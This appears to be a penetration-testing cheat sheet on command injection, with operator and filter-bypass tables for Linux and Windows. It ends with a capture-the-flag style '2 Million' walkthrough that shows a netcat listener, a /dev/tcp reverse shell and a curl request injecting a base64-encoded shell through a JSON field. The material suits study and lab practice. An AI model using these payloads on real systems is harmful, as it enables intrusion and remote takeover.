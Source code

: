 ## Injection Operators

| **Injection Operator** | **Injection Character** | **URL-Encoded Character** | **Executed Command**                       |
| ---------------------- | ----------------------- | ------------------------- | ------------------------------------------ |
| Semicolon              | `;`                     | `%3b`                     | Both                                       |
| New Line               | `\n`                    | `%0a`                     | Both                                       |
| Background             | `&`                     | `%26`                     | Both (second output generally shown first) |
| Pipe                   | `\|`                    | `%7c`                     | Both (only second output is shown)         |
| AND                    | `&&`                    | `%26%26`                  | Both (only if first succeeds)              |
| OR                     | `\|`                    | `%7c%7c`                  | Second (only if first fails)               |
| Sub-Shell              | ` `` `                  | `%60%60`                  | Both (Linux-only)                          |
| Sub-Shell              | `$()`                   | `%24%28%29`               | Both (Linux-only)                          |

---

# Linux

## Filtered Character Bypass

| Code                    | Description                                                                        |
| ----------------------- | ---------------------------------------------------------------------------------- |
| `printenv`              | Can be used to view all environment variables                                      |
| **Spaces**              |                                                                                    |
| `%09`                   | Using tabs instead of spaces                                                       |
| `${IFS}`                | Will be replaced with a space and a tab. Cannot be used in sub-shells (i.e. `$()`) |
| `{ls,-la}`              | Commas will be replaced with spaces                                                |
| **Other Characters**    |                                                                                    |
| `${PATH:0:1}`           | Will be replaced with `/`                                                          |
| `${LS_COLORS:10:1}`     | Will be replaced with `;`                                                          |
| `$(tr '!-}' '"-~'<<<[)` | Shift character by one (`[` -> `\`)                                                |
|                         |                                                                                    |

---

## Blacklisted Command Bypass

| Code                                                                                             | Description                         |
| ------------------------------------------------------------------------------------------------ | ----------------------------------- |
| **Character Insertion**                                                                          |                                     |
| `'` or `"`                                                                                       | Total must be even                  |
| `$@` or `\`                                                                                      | Linux only                          |
| **Case Manipulation**                                                                            |                                     |
| `$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")`                                                               | Execute command regardless of cases |
| `$(a="WhOaMi";printf %s "${a,,}")`                                                               | Another variation of the technique  |
| **Reversed Commands**                                                                            |                                     |
| `echo 'whoami' \| rev`                                                                           | Reverse a string                    |
| `$(rev<<<'imaohw')`                                                                              | Execute reversed command            |
| **Encoded Commands**                                                                             |                                     |
| `echo -n 'cat /etc/passwd \| grep 33' \| base64`                                                 | Encode a string with base64         |
| `bash<<<$(base64 -d<<<ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDE=)` | Execute b64 encoded string          |

---

# Windows

## Filtered Character Bypass

|Code|Description|
|---|---|
|`Get-ChildItem Env:`|Can be used to view all environment variables - (PowerShell)|
|**Spaces**||
|`%09`|Using tabs instead of spaces|
|`%PROGRAMFILES:~10,-5%`|Will be replaced with a space - (CMD)|
|`$env:PROGRAMFILES[10]`|Will be replaced with a space - (PowerShell)|
|**Other Characters**||
|`%HOMEPATH:~0,-17%`|Will be replaced with `\` - (CMD)|
|`$env:HOMEPATH[0]`|Will be replaced with `\` - (PowerShell)|

---

## Blacklisted Command Bypass

| Code                                                                                                         | Description                              |
| ------------------------------------------------------------------------------------------------------------ | ---------------------------------------- |
| **Character Insertion**                                                                                      |                                          |
| `'` or `"` for example w"h"o"a"m"i                                                                           | Total must be even                       |
| `^`<br>                                                                                                      | Windows only (CMD)                       |
| **Case Manipulation**                                                                                        |                                          |
| `WhoAmi`                                                                                                     | Simply send the character with odd cases |
| **Reversed Commands**                                                                                        |                                          |
| `"whoami"[-1..-20] -join ''`                                                                                 | Reverse a string                         |
| `iex "$('imaohw'[-1..-20] -join '')"`                                                                        | Execute reversed command                 |
| **Encoded Commands**                                                                                         |                                          |
| `[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))`                              | Encode a string with base64              |
| `iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"` | Execute b64 encoded string               |
### Linux Only
```bash
who$@ami
w\ho\am\i
```

### Windows Only
```cmd-session
C:\htb> who^ami

21y4d
```

> [!Tips]
> 
> It is always easier to inject our command in an input going at the end of the command, rather than in the middle of it, though both are possible
> 
> For example, the backend command runs as: "mv FROM TO". the param of the vuln is to=val&from=val.
> 
> It is easier to perform injection in the to param cause it happens later in the linux command


# From 2 Million
The command is successful and we gain command execution. Let's start a Netcat listener to catch a shell. 

```
nc -lvp 1234 
```

We can then get a shell with the following payload. 

```
bash -i >& /dev/tcp/10.10.14.4/1234 0>&1 
```

We encode the payload in Base64 and add it to the following command. 

```
curl -X POST http://2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=nufb0km8892s1t9kraqhqiecj6" --header "Content-Type: application/json" --data '{"username":"test;echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40LzEyMzQgMD4mMQo= | base64 -d | bash;"}'
```